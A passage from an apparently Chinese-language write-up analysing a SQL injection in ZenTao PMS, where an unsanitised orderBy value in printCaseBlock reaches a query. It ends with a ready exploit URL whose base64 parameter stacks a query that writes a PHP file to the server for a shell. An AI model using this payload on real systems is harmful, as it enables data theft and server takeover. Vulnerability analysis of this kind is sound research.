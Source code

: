 `printCaseBlock`中`openedbyme`分支会对传入的`$this->params->orderBy`带入到`orderBy`函数中

![](禅道pms-路由及漏洞分析\5.png)

由于没有进行严格的限制，从而拼接之后执行，造成了sql注入

## 漏洞利用

假如是root权限，就可以利用pdo的多段查询，直接导出数据，生成php文件，从而getshell

访问url

```
index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO3NlbGVjdCAnPD9waHAgcGhwaW5mbycgaW50byBvdXRmaWxlICdkOi9lLnBocCcjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==
```

在`referrer`中添加`http://localhost/`或者就是你访问的网页url

param参数为一段json的base64编码解码之后就是

